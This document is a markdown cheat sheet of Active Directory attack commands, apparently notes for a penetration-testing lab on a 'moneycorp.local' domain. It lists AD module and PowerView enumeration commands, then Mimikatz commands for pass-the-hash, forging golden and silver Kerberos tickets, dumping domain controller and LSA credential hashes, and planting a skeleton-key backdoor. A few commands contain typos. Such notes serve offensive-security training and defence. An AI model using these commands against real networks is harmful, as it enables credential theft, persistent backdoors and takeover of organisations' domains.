 ## Using AD Module
https://github.com/samratashok/ADModule

* `Import-Module Microsoft.ActiveDirectory.Management.dll`
* `Import-Module ActiveDirectory.psd1`

### Domain
* `Get-ADDomain`
* `Get-ADDomain -Identity moneycorp.local* `
* `Get-ADDomainController`
* `Get-ADDomainController -Discover -Domain "moneycorp.local"`
* `Get-ADTurst -Filter *`
* `Get-ADTrust -Identity domain.forest.local`
* `Get-ADForest -Identity domain.local`
* `(Get-ADForest).Domains` <-- lists all domains in the forest

### Users and Groups
* `Get-ADUser`
* `Get-ADUser -Identity student`
* `Get-ADUser -Filter "Name -like 'admin*'"| select Name`
* `Get-ADUser -Filter * -Properties * | select -First 1| Get-Member -MemberType *Property | Select Name`
* `Get-ADUser -Filter 'Description -like "*built*"'  -Properties Description | select name, Description`
* `Get-ADGroup -Filter * | select Name`
* `Get-ADGroup -Filter 'Name -like "*admin*"' | select name`
* `Get-ADGroupMember -Identity "Domain Admins" -Recursive`
* `Get-ADPrincipalGroupMembership -Identity student2`
* `Get-ADGroup -Server domaincontrollername -Filter *`

### Computers
* `Get-ADComputer -Filter *`
* `Get-ADComputer -Filter 'OperatingSystem -like "*Server 2016*"' -Properties OperatingSystem | Select Name,OperatingSystem`
* `Get-ADComputer -Filter * -Properties DNSHostName| %{Test-Connection -Count 1 -ComputerName _.DNSHostName}`

### Shares
* `Get-ADComputer -Filter * -Property Name| select name| %{Get-NetShare -ComputerName $_.Name}`

### Access Controls (ACLs)
* `Get-ACL`
* `Get-ACL 'AD:\CN=Administrator,CN=Users,DC=dc.local'`
* List ACLs for Administrator user: `(Get-Acl 'AD:\CN=Administrator,CN=Users,DC=dc.local').Access`

## Using PowerView
`Import-Module PowerView.ps1`

### Domain
* `Get-NetDomain`
* `Get-NetDomain -Domain moneycorp.local`
* `Get-DomainPolicy`
* `(Get-DomainPolicy)."system access"`
* `Get-NetDomainController`
* `Get-NetDomainController -Domain moneycorp.local`
* `Get-NetDomainTrust -Domain domain.forest.local`
* `Get-NetForest`
* `Get-NetForestDomain` <-- lists all domains in the forest
* `Get-NetForestTrust`

### Users
* `Get-NetUser`
* `Get-NetUser -Username student`
* `Get-NetUser | select cn`
* `Get-UserProperty -Properties pwdlastset`
* `Get-UserProperty -Properties badpwdcount`
* `Find-UserField -SearchField Description -SearchTerm "built"`

### Computers
* `Get-NetComputer`
* `Get-NetComputer -OperatingSystem "*Server 2016*"`
* `Get-NetComputer -FullData | Select cn,operatingsystem`

### Users and Groups
* `Get-NetGroup 'Domain Admins' -Domain moneycorp.local -FullData`
* `Get-NetGroupMember -GroupName "Domain Admins" -Recurse`
* `Get-netLocalGroup -ComputerName DomainController.domain -ListGroups`
* `Get-Net Loggedon -ComputerName localhost`
* `Get-LoggedOnLocal -ComputerName localhost`  <--- Needs remote registry running on target
* `Get-LastLoggedOn -ComputerName localhost`

### Fileshares
* `invoke-sharefinder -Verbose`
* `Invoke-FileFinder -Verbose`
* `Invoke-ShareFinder -Domain "dollarcorp.moneycorp.local" -ExcludeStandard -ExcludePrint -ExcludeIPC`
* `Get-NetFileServer`

### GPOs
* `Get-NetGPO`
* `Get-NetGPO -ComputerName <computer name>`
* `GPResult.exe /R`  (Windows built-in binary)
* Are you in restricted groups? `Get-NetGPOGroup`
* `Find-GPOComputerAdmin -Computername computer.domain`
* `Find-GPOLocation -UserName student -Verbose`

### OUs
* `Get-NetOU -FullData`
* Grab GPLINK CNAME value and use it below to get more info on GPO applied to this OU: 
* `Get-NetGPO -GPOname '{GPLINK CNANME Value between braces}'`

### Access Controls (ACLs)
* `Get-ObjectACL -SamAccountName student -ResolveGUIDs`
* `Get-ObjectAcl -ADSpath "LDAP://CN=Domain Admins,CN=Users,DC=dc.local" -ResolveGUIDs -Verbose`

#### Find interesting ACLs
* `Invoke-ACLScanner -ResolveGUIDs`

### Check local groups and admin access
* `Invoke-CheckLocalAdminAccess`
* `Find-LocalADminAccess -Verbose`
* `Invoke-EnumerateLocalAdmin -Verbose`
* `Get-NetLocalGroup`

### User Hunting
* `Invoke-userhunter -GroupName "RDPUsers"`

## Mimikatz ##
Launch PowerShell with DA's hash:
* `Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:domainname.domainname.local /ntlm:NTLMHASH /run:powershell.exe"'`

Using NTLM hash of krbtgt account, create a Golden ticket (Get-DomainSID first):
* `invoke-mimikatz -Command '"kerberos::golden /User:Administrator /domain:domainname.domainname.local /sid:DOMAINSIDGOESHERE /krbtgt:KRBTGTHASHGOESHERE id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'`

Create a silver ticket for HOST service SPN (Get-DomainSID first) :
* `Invoke-Mimikatz -Command '"kerberos::golden /domain:domainname.domainname.local /sid:DOMAINSIDGOESHERE /target:domaincontrollername.domainname.domainname.local /service:HOST /rc4:NTLMHASHGOESHERE /user:Administrator /ptt"'`

You need HOST service silver ticket to interact with the operating system (e.g. run commands). CIFS service silver ticket will allow you to interact with the file system.

Dump hashes of a Domain Controller:
* `$sess = New-PSSession -Computer-Name dcorp-dc.domainname.domainname.local -Verbose`
* `Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess`
* `Enter-PSSession -Session $sess`
* `Invoke-Mimikatz -Command '"lsadump::lsa /patch"'`

"Over pass" Domain admin's hash in an elevated PowerShell window, get a ticket with domain admin's hash, and open new powershell window with DA's ticket
* `Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:domainname.domainname.local /ntlm:NTLMHASHGOESHERE /run:powershell.exe"'`

Dump domain secrets
* `Invoke-Mimikatz -Command '"lsadump::lsa /path"' -ComputerName dcorp.dc`


Create a Sekelton Key (sort-of adds a secondary password of mimikatz to all domain users):
* `Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName domaincontrollername.domainname.domainname.local`

